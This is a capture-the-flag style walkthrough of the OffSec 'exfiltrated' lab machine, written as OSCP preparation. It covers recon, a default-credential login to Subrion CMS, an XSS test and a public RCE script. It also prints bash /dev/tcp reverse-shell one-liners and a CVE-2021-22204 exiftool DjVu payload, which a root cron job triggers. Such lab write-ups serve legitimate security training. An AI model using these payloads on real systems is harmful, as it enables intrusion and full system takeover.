**Start 13:27 11-09-2024**

---
```
192.168.221.163
```
## Recon

### Nmap
Starting off with recon I used the following scan.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -vvvv -T5 -p- 192.168.221.163
Nmap scan report for 192.168.221.163
Host is up, received syn-ack (0.015s latency).
Scanned at 2024-09-11 07:26:09 EDT for 243s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http?   syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since this scan did not give me the info I was looking for I scanned it again specifying these ports:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -vvvv -T5 -p22,80 192.168.221.163 -Pn

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH6PH1/ST7TUJ4Mp/l4c7G+TM07YbX7YIsnHzq1TRpvtiBh8MQuFkL1SWW9+za+h6ZraqoZ0ewwkH+0la436t9Q+2H/Nh4CntJOrRbpLJKg4hChjgCHd5KiLCOKHhXPs/FA3mm0Zkzw1tVJLPR6RTbIkkbQiV2Zk3u8oamV5srWIJeYUY5O2XXmTnKENfrPXeHup1+3wBOkTO4Mu17wBSw6yvXyj+lleKjQ6Hnje7KozW5q4U6ijd3LmvHE34UHq/qUbCUbiwY06N2Mj0NQiZqWW8z48eTzGsuh6u1SfGIDnCCq3sWm37Y5LIUvqAFyIEJZVsC/UyrJDPBE+YIODNbN2QLD9JeBr8P4n1rkMaXbsHGywFtutdSrBZwYuRuB2W0GjIEWD/J7lxKIJ9UxRq0UxWWkZ8s3SNqUq2enfPwQt399nigtUerccskdyUD0oRKqVnhZCjEYfX3qOnlAqejr3Lpm8nA31pp6lrKNAmQEjdSO8Jxk04OR2JBxcfVNfs=
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0EdIHR7NOReMM0G7C8zxbLgwB3ump+nb2D3Pe3tXqp/6jNJ/GbU2e4Ab44njMKHJbm/PzrtYzojMjGDuBlQCg=
|   256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDCc0saExmeDXtqm5FS+D5RnDke8aJEvFq3DJIr0KZML
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From here I added the `exfiltrated.offsec` host to my `/etc/hosts` file for further usage.
kali

### dirsearch
I ran `dirsearch` to enumerate any other available endpoints before proceeding to the site and got 1:

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://exfiltrated.offsec/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -x 400,403,404

  _|. _ _  _  _  _ _|_    v0.4.3                                     
 (_||| _) (/_(_|| (_| )                                                  
Extensions: php, aspx, jsp, html, js | HTTP method: GET
Threads: 25 | Wordlist size: 19964

Target: http://exfiltrated.offsec/

[07:52:26] Starting:                                                 
[07:52:38] 200 -  112B  - /www.xml

Task Completed
```

I'll have to keep this is mind.


### 80/TCP - HTTP

Heading into the site I scrolled down a bit and found the following button which I clicked:


I then got the following screen:


I took note of the version and looked it up on `Google` using the following dork:



It appears there's multiple vulnerabilities, let's check and see which one is more applicable to us.

After some reading I understood that I first had to `log in` before I could execute any sort of scripts. I looked up `default credentials` and simultaneously tried the `admin - admin` creds and got access:


### Cross Site Scripting (XSS)
From here I clicked the gear icon and got a bit stuck, but reading the `PoC` of [another GitHub user](https://github.com/intelliants/subrion/issues/895) I managed to find the correct path where to insert a `XSS` payload. 
I headed to the `/panel/fields/add` endpoint, clicked on `Content` -> `Fields` and the following came up:







After I had gotten to this point I decided to try out whether it is indeed vulnerable to `XSS` so I put in a default script in the `Title` and `Tooltip` bar:





And it indeed worked, meaning it is vulnerable to `XSS`.


### Remote Code Execution (RCE)
I tried writing up some further `XSS` but got nothing useful out of it, instead I looked at the other given exploits I had found earlier. 
I found another exploit regarding a `Remote Code Execution` script which looked promising so I decided to try it out.



I decided to use this script to try and login using the previously found creds, `admin - admin`:



Indeed it seemed to work! Now that I got a reverse shell I could finally get to it.
Since I could basically not do anything in this shell I decided to send another reverse shell from here to myself in order to catch a connection on my own listener:

```bash
bash -c "bash -i >& /dev/tcp/192.168.45.190/1235 0>&1"
```

```bash
nc -lvnp 1234
```

Unfortunately for me that didn't seem to do the trick:



I decided to `URL encode it` and check whether that would work.

```bash
bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.45.190/1234%200%3E%261%22
```

This time it seemed to work:



Now that I had a normal shell I started enumerating the server to see what I had.
I tried to access some user home directories but had absolutely 0 luck.

```bash
www-data@exfiltrated:/home$ ls -l
ls -l
total 4
drwx--x--x 2 coaran coaran 4096 Jun 10  2021 coaran
www-data@exfiltrated:/home$ cd coaran
cd coaran
www-data@exfiltrated:/home/coaran$ ls -l
ls -l
ls: cannot open directory '.': Permission denied
```

After some looking around I noticed I had access to the `/etc/crontab` file:

```bash
www-data@exfiltrated:/etc$ cat crontab
cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/image-exif.sh
#
```

I saw that every other minute there was script running in the `/opt` directory.

```bash
www-data@exfiltrated:/opt$ cat image-exif.sh
cat image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

## Privilege Escalation

I decided to look up any vulnerabilities regarding `exiftool` since the script calls upon it. I checked the current version number:

```bash
www-data@exfiltrated:/opt$ exiftool -ver
exiftool -ver
11.88
```

And got to it.



After some scrolling I managed to [find a blog](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/) that contained what I needed:



By following these steps I had to execute the following commands:

```bash
# On the local machine
sudo apt install djvulibre-bin

# Create payload file with reverse shell
cat > payload
(metadata "\c${system('bash -c \"bash -i >& /dev/tcp/192.168.45.190/1235 0>&1\"')};")

# Compress the payload
bzz payload payload.bzz

# Compile the file
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

I then checked out whether everything was set up correctly using `exiftool` on the payload:



It all appeared to be correct meaning I now had to write a `config file` since this payload I'd crafted wouldn't do anything on it's own.

Here I went ahead and copied the content from the blog:



I then grabbed a random `.jpg` picture from the internet to insert the payload into it and updated it:



Now I had to start up my listener and a `python server` and upload the exploit to the target machine:

```bash
python3 -m http.server 80

nc -lvnp 1235
```

As we recall from earlier we need to upload the file to a specific destination or it won't work:



We head back into the directory and use `wget` to upload the file.



After a minute passed the `cron` job did it's thing and I got a `root shell`:




### proof.txt
```bash
root@exfiltrated:~# cat proof.txt
cat proof.txt
cbadcac343aae096bfa28029c3b495d9
```

### local.txt
I almost forgot about this one until I saw the progress bar only showing half, so I went back into the `coaran` user's directory and found the local flag there:

```bash
root@exfiltrated:/home/coaran# cat local.txt
cat local.txt
d0a96f5ad72c8b948a1556ce41f1523f
```


---

**Finished 16:00 11-09**

[^Links]: [[OSCP Prep]]